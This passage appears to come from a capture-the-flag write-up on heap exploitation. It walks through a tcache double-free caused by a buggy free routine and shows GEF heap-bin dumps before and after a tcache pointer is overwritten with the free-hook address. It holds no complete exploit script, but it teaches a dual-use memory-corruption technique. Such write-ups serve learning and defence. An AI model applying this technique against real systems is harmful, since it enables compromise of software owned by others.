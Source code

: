 To do the write, we will execute a double free. How this will work, is that we will have two chunks allocated. Proceeding that, we will allocate two more chunks. Then we will remove the chunk at index `0`. Because of the bug where it only actually frees the last allocated chunk, it will free the second chunk twice (since it frees the last chunk allocated, but it will get rid of the chunk you specify). As a result, it will free the second chunk twice, and the tcache will look like this:

```
gef➤  heap bins
───────────────────── Tcachebins for arena 0x7f1219689c40 ─────────────────────
Tcachebins[idx=0, size=0x10] count=7  ←  Chunk(addr=0x55aec1549290, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55aec1549290, size=0x20, flags=PREV_INUSE)  →  [loop detected]
Tcachebins[idx=1, size=0x20] count=1  ←  Chunk(addr=0x55aec1549310, size=0x30, flags=PREV_INUSE)
Tcachebins[idx=2, size=0x30] count=2  ←  Chunk(addr=0x55aec154a1c0, size=0x40, flags=PREV_INUSE)  ←  Chunk(addr=0x55aec15492b0, size=0x40, flags=PREV_INUSE)
Tcachebins[idx=3, size=0x40] count=1  ←  Chunk(addr=0x55aec1549340, size=0x50, flags=PREV_INUSE)
Tcachebins[idx=5, size=0x60] count=1  ←  Chunk(addr=0x55aec154a270, size=0x70, flags=)
Tcachebins[idx=7, size=0x80] count=1  ←  Chunk(addr=0x55aec1549390, size=0x90, flags=PREV_INUSE)
Tcachebins[idx=11, size=0xc0] count=1  ←  Chunk(addr=0x55aec1549ae0, size=0xd0, flags=PREV_INUSE)
Tcachebins[idx=14, size=0xf0] count=1  ←  Chunk(addr=0x55aec1549420, size=0x100, flags=PREV_INUSE)
Tcachebins[idx=29, size=0x1e0] count=1  ←  Chunk(addr=0x55aec1549520, size=0x1f0, flags=PREV_INUSE)
Tcachebins[idx=59, size=0x3c0] count=1  ←  Chunk(addr=0x55aec1549710, size=0x3d0, flags=PREV_INUSE)
────────────────────── Fastbins for arena 0x7f1219689c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7f1219689c40' ───────────────────
[+] unsorted_bins[0]: fw=0x55aec1549be0, bk=0x55aec1549be0
 →   Chunk(addr=0x55aec1549bf0, size=0x420, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7f1219689c40' ────────────────────
[+] small_bins[3]: fw=0x55aec154a1b0, bk=0x55aec154a1b0
 →   Chunk(addr=0x55aec154a1c0, size=0x40, flags=PREV_INUSE)
[+] small_bins[4]: fw=0x55aec154a210, bk=0x55aec154a210
 →   Chunk(addr=0x55aec154a220, size=0x50, flags=PREV_INUSE)
[+] Found 2 chunks in 2 small non-empty bins.
──────────────────── Large Bins for arena '*0x7f1219689c40' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

We can see here that in the tcache, the entry at address `0x55aec1549290` leads to `0x55aec1549290`, which is itself. Since we freed the same chunk twice, it was entered into the tcache twice. Now we will allocate a chunk and write to it the address of the free hook. Since there are two entries for the `0x55aec1549290` chunk, one will still be in the tcache and have a next pointer to the next chunk, which we will overwrite. After the overwrite, the tcache will look like this:

```
ggef➤  heap bins
───────────────────── Tcachebins for arena 0x7f2f01102c40 ─────────────────────
Tcachebins[idx=0, size=0x10] count=2  ←  Chunk(addr=0x562ae9e281c0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x7f2f011048e8, size=0x0, flags=)
Tcachebins[idx=1, size=0x20] count=1  ←  Chunk(addr=0x562ae9e27310, size=0x30, flags=PREV_INUSE)
Tcachebins[idx=2, size=0x30] count=1  ←  Chunk(addr=0x562ae9e272b0, size=0x40, flags=PREV_INUSE)
Tcachebins[idx=3, size=0x40] count=1  ←  Chunk(addr=0x562ae9e27340, size=0x50, flags=PREV_INUSE)
Tcachebins[idx=5, size=0x60] count=1  ←  Chunk(addr=0x562ae9e28270, size=0x70, flags=)
Tcachebins[idx=7, size=0x80] count=1  ←  Chunk(addr=0x562ae9e27390, size=0x90, flags=PREV_INUSE)
Tcachebins[idx=11, size=0xc0] count=1  ←  Chunk(addr=0x562ae9e27ae0, size=0xd0, flags=PREV_INUSE)
Tcachebins[idx=14, size=0xf0] count=1  ←  Chunk(addr=0x562ae9e27420, size=0x100, flags=PREV_INUSE)
Tcachebins[idx=29, size=0x1e0] count=1  ←  Chunk(addr=0x562ae9e27520, size=0x1f0, flags=PREV_INUSE)
Tcachebins[idx=59, size=0x3c0] count=1  ←  Chunk(addr=0x562ae9e27710, size=0x3d0, flags=PREV_INUSE)
────────────────────── Fastbins for arena 0x7f2f01102c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
```
